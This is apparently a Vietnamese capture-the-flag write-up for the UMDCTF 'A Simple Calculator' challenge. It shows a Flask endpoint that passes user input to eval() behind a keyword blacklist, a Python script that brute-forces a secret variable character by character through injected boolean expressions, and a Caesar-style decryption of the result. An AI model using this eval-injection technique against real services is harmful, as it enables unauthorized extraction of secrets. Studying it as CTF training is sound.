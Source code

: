 # UMDCTF - A Simple Calculator

*source code*: https://drive.google.com/file/d/1H-VvvdStKw6ReLB2BXHYw9Zu4YLb6qIy/view?usp=sharing

## Review source code
```python
# .....
from secrets import flag_enc, ws
#....
def z(f: str):
    for w in ws:
        if w in f:
            raise Exception("nope")
    return True
# .....
@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
# .....
```
File `secrets.py` có chứa `flag_enc` và `ws` được import vào `app.py`. `ws` có chứa các blacklist keyword đã được dấu khi trước khi public source-code. Server nhận f parameter đi qua hàm z, nếu trùng với blacklist thì sẽ trả về lỗi còn nếu không thì được đi vào `eval()`. 

Fuzz qua thì biết được hàm `ord()` và một số kí tự khác như `\` bị block nên không thể bypass hàm `z` hay đọc result dạng từng số ascii nên ta sẽ brute-foce `flag_enc` bằng cách cắt ra từng kí tự rồi so sánh từng cái thôi. 

**Python scripts**: Brute-force encrypted flag
```python
import requests
import string

url = 'https://calculator-w78ar.ondigitalocean.app/'
characters = string.ascii_letters + string.digits + string.punctuation
# val = f"{int(eval(request.json['f']))}"

flag = ''
for i in range(len(flag), 100):
    for c in characters:
        json = {
            "f": f"flag_enc[{i}:{i+1}] == '{c}'"
        }
        
        r = requests.post(url+'calc', json=json)
        result = r.json()['result']
        print(flag+c)
        
        if result == '1':
            flag += c
            print('[FOUND] : ' + flag)
            if c == '}':
                exit('done!')
            break
```

**encrypted flag**: `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`

Flag nhận được đã bị encrypt bằng hàm `encrypt()` trong file `secrets.py`. 

**Python scripts**: Decrypt encrypted flag
```python
FLAG = 'OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}'

def encrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            c_index = ord(c) - ord('A')
            c_shifted = (c_index + key) % 26 + ord('A')
            result += chr(c_shifted)
        elif c.islower():
            c_index = ord(c) - ord('a')
            c_shifted = (c_index + key) % 26 + ord('a')
            result += chr(c_shifted)
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def reverse(c, er):
    a = ord(c) - ord(er)
    if a >= 20:
        result = a - key + ord(er)
    else:
        result = a + 26 - key + ord(er)
    return chr(result)
    
def decrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            result += reverse(c, 'A')
        elif c.islower():
            result += reverse(c, 'a')
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def find_key():
    for i in range(100):
        if encrypt('UMDCTF', i) == 'OGXWNZ':
            return i
            
key = find_key()
print(f'[KEY FOUND] : ' + str(key))

flag_dec = decrypt(FLAG, key)
flag_enc = encrypt(flag_dec, key)

print(flag_dec)
print(flag_enc)
```

**flag**: `UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}`
